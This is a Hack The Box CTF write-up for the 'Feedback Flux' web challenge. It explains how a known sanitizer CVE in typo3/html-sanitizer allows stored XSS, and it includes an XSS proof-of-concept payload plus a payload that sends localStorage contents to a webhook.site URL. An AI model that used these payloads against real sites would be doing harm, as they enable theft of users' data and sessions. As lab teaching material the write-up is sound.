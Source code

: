 ```yaml
---
clayout: ctf
title: Feedback Flux
date: 2024-12-27
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Feedback Flux
      link: https://app.hackthebox.com/challenges/782
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/782
          thumbnail: /ctf/hack-the-box/challenges/web/feedback-flux/pwned.png
---
```


## Challenge Description

You're a member of fsociety tasked with infiltrating E Corp's Feedback Flux system. There's a vulnerability hidden deep
within their feedback platform, and it's your job to find and exploit it.

## Challenge Overview

When we navigate to the challenge, we are presented with a feedback form that allows us to submit feedback. The feedback
form includes a text area for the message and a submit button to send the feedback to the server. We also have the list
of feedbacks that have already been submitted.

![Feedback Flux - Overview](/ctf/hack-the-box/challenges/web/feedback-flux/overview.png)

## Code Overview

### Technologies used

- [Laravel](https://laravel.com/) Laravel is a web application framework with expressive, elegant syntax.
- [PHP](https://www.php.net/) PHP is a popular general-purpose scripting language that is especially suited to web
  development.
- [MySQL](https://www.mysql.com/) MySQL is an open-source relational database management system.

### Feedback Form Submission

When we submit feedback, the server processes the feedback and stores it in a database.

```php
public function store(Request $request)
{
    $data = $request->validate([
        'feedback' => ['required', 'string']
    ]);

    $commonAttrs = [
        new Behavior\Attr('id'),
        new Behavior\Attr('class'),
        new Behavior\Attr('data-', Behavior\Attr::NAME_PREFIX),
    ];
    $hrefAttr = (new Behavior\Attr('href'))
        ->addValues(new Behavior\RegExpAttrValue('#^https?://#'));
    
    $behavior = (new Behavior())
        ->withFlags(Behavior::ENCODE_INVALID_TAG | Behavior::ENCODE_INVALID_COMMENT)
        ->withoutNodes(new Behavior\Comment())
        ->withNodes(new Behavior\CdataSection())
        ->withTags(
            (new Behavior\Tag('div', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs),
            (new Behavior\Tag('a', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs)
                ->addAttrs($hrefAttr->withFlags(Behavior\Attr::MANDATORY)),
            (new Behavior\Tag('br'))
        )
        ->withNodes(
            (new Behavior\NodeHandler(
                new Behavior\Tag('typo3'),
                new Behavior\Handler\ClosureHandler(
                    static function (NodeInterface $node, ?DOMNode $domNode): ?DOMNode {
                        return $domNode === null
                            ? null
                            : new DOMText(sprintf('%s says: "%s"',
                                strtoupper($domNode->nodeName),
                                $domNode->textContent
                            ));
                    }
                )
            ))
        );
    
    $visitors = [new CommonVisitor($behavior)];
    $sanitizer = new Sanitizer($behavior, ...$visitors);
    $data['feedback'] = $sanitizer->sanitize($data['feedback']);

    Feedback::create($data);

    AdminBot::dispatch();
    return to_route('feedback.create')->with('message', 'Feedback submitted!');
}
```

The server sanitizes the feedback using a [`typo3/html-sanitizer`](https://github.com/TYPO3/html-sanitizer) package
before storing it in the database. Then a job is dispatched to the queue to notify the admin about the new feedback.

### Admin Bot

The `AdminBot` job is responsible for storing the flag in the local storage of the browser. The flag is read from the
`/flag.txt` file and stored in the local storage of the browser. The bot then navigates to the feedback page and waits
for 2 seconds before closing the browser.

```php
public function handle(): void
{
    $flagPath = '/flag.txt';
    if (!file_exists($flagPath) || !is_readable($flagPath)) {
        Log::error("Flag file not found or unreadable at $flagPath");
        return;
    }

    $flag = trim(file_get_contents($flagPath));
    $browserFactory = new BrowserFactory();
    $domain = '127.0.0.1';

    $browser = $browserFactory->createBrowser([
        "noSandbox" => true,
    ]);

    try {
        $page = $browser->createPage();

        $page->navigate('http://127.0.0.1:8000')->waitForNavigation();

        $page->evaluate(sprintf(
            'localStorage.setItem("flag", "%s"); console.log("Flag stored in localStorage");',
            $flag
        ));
        $page->evaluate('console.log("Flag in localStorage:", localStorage.getItem("flag"));');
        $page->navigate('http://127.0.0.1:8000/feedback')->waitForNavigation();

        usleep(2000000);

    } catch (\Exception $e) {
        Log::error("Error in AdminBot job: " . $e->getMessage());
    } finally {
        $browser->close();
    }
}
```

Let's find the vulnerability in the feedback form and exploit it to get the flag.

## Finding the Vulnerability

Looking at the `composer.json` file, who is in Laravel the file that contains the dependencies of the project, we can
see that the `typo3/html-sanitizer` package is being used.

```json
{
    "require": {
        ...
        "typo3/html-sanitizer": "2.1.3",
        ...
    }
}
```

Surfing on the web we found a CVE related to the `typo3/html-sanitizer` package.
The [CVE-2023-47125](https://github.com/advisories/GHSA-mm79-jhqm-9j54) is a vulnerability who allows to bypass the HTML
sanitizer and execute arbitrary JavaScript code.

## Exploiting

To exploit the vulnerability, we need to craft a payload that will bypass the HTML sanitizer and execute JavaScript
code. To do this, we found this [issue](https://github.com/Masterminds/html5-php/issues/241) on github that explains how
to bypass the sanitizer.

To bypass the sanitizer, we need to create a POC that will trigger the vulnerability. We can use the following payload
to trigger a XSS.

```html
<?xml ><img src=x onerror=alert(1)> ?>
```

Going on the `/feedback` page after submitting the feedback, we can see that the payload is executed and the alert is
shown.

![Feedback Flux - XSS](/ctf/hack-the-box/challenges/web/feedback-flux/xss.png){style="display: block; margin: 0 auto"}

Now that we have a working XSS payload, we can craft a payload that will steal the flag from the local storage of the
browser. To do this, we can use the (`Webhook`)[https://webhook.site/] service to send the flag to our webhook.

```html
<?xml ><img src=x onerror=fetch("https://webhook.site/your-webhook-url?flag=" + localStorage.getItem("flag"))> ?>
```

::: warning

Don't forget to replace `your-webhook-url` with your webhook URL.

:::

After submitting the feedback, we can see that the flag is sent to our webhook.

![Feedback Flux - Flag](/ctf/hack-the-box/challenges/web/feedback-flux/flag.png)

Using the same technique, we can steal the real flag.

## Reference

- [Webhook Site](https://webhook.site/)